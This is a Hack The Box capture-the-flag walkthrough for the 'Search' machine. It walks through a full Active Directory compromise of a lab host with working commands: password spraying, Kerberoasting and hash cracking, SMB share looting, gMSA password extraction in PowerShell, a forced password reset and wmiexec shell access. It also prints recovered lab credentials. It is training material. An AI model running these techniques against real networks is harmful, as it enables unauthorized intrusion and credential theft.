


# [Search](https://app.hackthebox.com/machines/search/)

```bash
nmap -p- --min-rate 10000 10.10.11.129 -Pn
```


After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,9389 10.10.11.129 -Pn 
```


From nmap scan results, I see that I need to add `search.htb`,`research.search.htb` domains into `/etc/hosts` file for resolving purposes.


Let's do `Directory Enumeration` via `gobuster` command.
```bash
gobuster dir -u http://10.10.11.129/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


While opening web application, I see such thing.


While looking at images of web application closely , I mean `zoom`, I can see password on notebook.


Password: IsolationIsKey?


From above this password, I see person name as `Hope Sharp`. Let's genereate possible domain users via this username and lastname.
```bash
hope
sharp
h.sharp
hope.s
hope.sharp
hopesharp
```


Let's brute-force for these usernames via one password, means `Password Spray` attack.
```bash
crackmapexec smb 10.10.11.129 -u pos_usernames.txt -p IsolationIsKey? --continue-on-success
```


Success, we found credentials already.

hope.sharp:IsolationIsKey?


Via this domain user, let's do `Kerberoasting` attack by using `GetUserSPNs.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.11.129 search.htb/hope.sharp
```




Let's crack this hash via `hashcat` command.
```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


web_svc: @3ONEmillionbaby


Let's check this credentials via `crackmapexec` command.
```bash
crackmapexec smb 10.10.11.129 -u web_svc -p '@3ONEmillionbaby'
```


Let's look at `Domain Users` via script called `GetADUsers.py` of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -dc-ip 10.10.11.129 search.htb/web_svc:@3ONEmillionbaby -all
```


Let's parse this users via `space` delimeter.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -dc-ip 10.10.11.129 search.htb/web_svc:@3ONEmillionbaby -all | cut -d " " -f1
```

After this, let's do `Password Spray` attack for these users for password `@3ONEmillionbaby` by using `crackmapexec` command.
```bash
crackmapexec smb 10.10.11.129 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
```


Edgar.Jacobs: @3ONEmillionbaby

Let's check `SMB` shares via this credentials.
```bash
smbmap -H 10.10.11.129 -u Edgar.Jacobs -p '@3ONEmillionbaby'
```


Let's access to `RedirectedFolders$` share via `smbclient` command.
```bash
smbclient -U '10.10.11.129\Edgar.Jacobs' //10.10.11.129/RedirectedFolders$
```


While accessing to `SMB` share, I find `.xlsx` file and try to read this.

As this is also `compressed` files, we can `unzip` this.


I found already `SHA-512` hash value via salt of this from `sheet2.xml`.


I read passwords of users.




Let's check this usernames and passwords of them.
```bash
crackmapexec smb 10.10.11.129 -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18'
```


Via this user credentials, let's check `SMB` shares via `smbmap` command.
```bash
smbmap -H 10.10.11.129 -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18'
```


Let's go into `SMB` share called `RedirectedFolders$` via this credentials.
```bash
smbclient -U '10.10.11.129\Sierra.Frye' //10.10.11.129/RedirectedFolders$
```

user.txt


On this user's `Downloads/backups` directory, I found `.pfx` and `.p12` files.


Let's download and convert them from their formats into `crackable` formats by using `pfx2john` command.


Let's crack them via `john` command.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Cert's Password: misspissy

After this we can upload this certificates into our browser to see `Forbidden` pages of target, For example we can see `/staff` endpoint.


Now, we can see `/staff` endpoint.


We can access into here via our domain credentials. But I wrote `IP Address`, it doesn't connect that's why I wrote just `research` due to result of `crackmapexec` and it worked.


user.txt


Let's run `bloodhound-python` via our domain credentials.
```bash
bloodhound-python -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb -c All -ns 10.10.11.129
```


Let's run our commands to up `bloodhound`.
```bash
neo4j console
bloodhound
```


From this enumeration, I see that for `Sierra.Frye` user has privilege for `ReadGMSAPassword`


For abusing this, I looked at this [article](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)


Exploit code is such below.
```bash
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```


As we have already full control, we can reset passwords of some users.
```bash
$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Dr4ks1234!' -force)} -Credential $cred
```


Let's join into machine via `wmiexec.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py 'search/tristan.davies:Dr4ks1234!@10.10.11.129'
```


root.txt

